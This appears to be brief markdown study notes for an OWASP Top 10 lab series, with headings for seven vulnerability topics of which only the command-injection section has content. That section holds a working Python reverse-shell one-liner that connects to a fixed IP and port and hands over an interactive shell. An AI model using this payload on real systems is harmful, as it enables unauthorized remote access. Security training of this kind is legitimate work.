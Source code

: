 # OWASP TOP 10

## Day 1 : Command Injection

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.9.183",3301));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])
```

## Day 2 : Broken Authentication

## Day 3 : Sensitive data exposure

## Day 4 : XML External Entity

## Day 5 : Broken Access Control

## Day 6 : Security Misconfiguration
## Day 7 : Cross-site Scripting

